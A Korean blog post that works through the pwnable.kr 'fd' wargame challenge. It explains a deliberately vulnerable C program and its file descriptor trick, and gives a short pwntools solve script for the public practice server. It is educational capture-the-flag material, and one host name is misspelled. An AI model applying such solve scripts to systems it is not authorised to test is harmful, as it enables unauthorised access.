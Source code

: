 ```yaml
---
layout: post
title: pwnable.kr | FD
subtitle: FD 문제 풀이
categories: Pwnable
tags: [Pwnable, pwnable.kr, Pentest]
---
```


**본 문제는 pwnable.kr를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://pwnable.kr/play.php">pwnable.kr</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178695660-0a014bc2-aa84-491e-bb99-3f3f7d3ac3bf.png" width = 400>
</p>

**FD**를 클릭하시면 아래와 같이 나올텐데 리눅스 환경에서는 `ssh fd@pwnabler.kr -p 2222`로 접속하고 패스워드는 **guest**로 접속하시면 됩니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387122-edf97741-8f33-4c74-9659-4e170ccfb462.png">
</p>

* 접속하면 위와 같은 내용이 나올 겁니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387172-e0cce2c7-6a3b-4d97-af79-3da6300ffe2f.png" width = 420>
</p>

* flag를 보면 읽을 권한이 없다. **fd.c** 파일을 분석해보고, ROOT 권한을 탈취하여 flag를 읽어야 할 것으로 예상된다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

fd.c 파일의 내용이다. 프로그램을 실행할 때 인자가 있어야 본 루팅을 이행 할 것이다.

* 우리의 인자가 사용되는 부분은 `int fd = atoi( argv[1] ) - 0x1234;` , `len = read(fd, buf, 32);`이 두 부분이다.

* 그리고 우리가 읽어야 할 flag를 실행해주는 코드는 `if(!strcmp("LETMEWIN\n", buf)`에 있다.

우선 **read()**는 인자가 사용되는 fd가 들어므로 read()함수를 알아보자.

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

**read()**함수의 원형이다.

* **int fd**
  * 읽을 파일의 파일 디스크립터

* __void *buf__
  * 읽어드린 데이터를 저장할 버퍼

* __size_t nbytes__
  * 읽어들일 데이터의 최대 길이 (buf의 길이보다 길어선 안됨)

번호  | 설명 | 파일스트림 |
:---: | :---:| :----------:|
0    | 표준 입력 |  stdin
1    | 표준 출력 |  stdout
2    | 표준 에러 |  stderr

우리가 buf에 LETMEWIN이라는 값을 넣기 위해서는 **read()**가 **표준 입력**이 되어야 하므로 `int fd = atoi( argv[1] ) - 0x1234;`에서 fd가 0이 되야 한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387791-b3cbaa66-847e-46e4-ae48-278c9ffadd1d.png" width = 350>
</p>

```Python
from pwn import *
p = ssh("fd","pwnable.kr",2222,"guest")
path = "/home/fd/fd"
argv = "4660"
payload = [path,argv]
s = p.run(payload)
s.sendline('LETMEWIN')
s.interactive()
```
* 위 코드처럼 Pwntools을 이용해서도 값을 전송할 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179391379-b5f1f116-29b7-4b4b-b5a8-efaa64d7ee90.png" width = 350>
</p>

* 0x1234를 10진수로 변환하면 **4660**이란 숫자가 나온다. `./fd 4660`으로 실행해보면 flag 값이 나온다. 이렇게 파일 디스크립터를 알아봤다 !


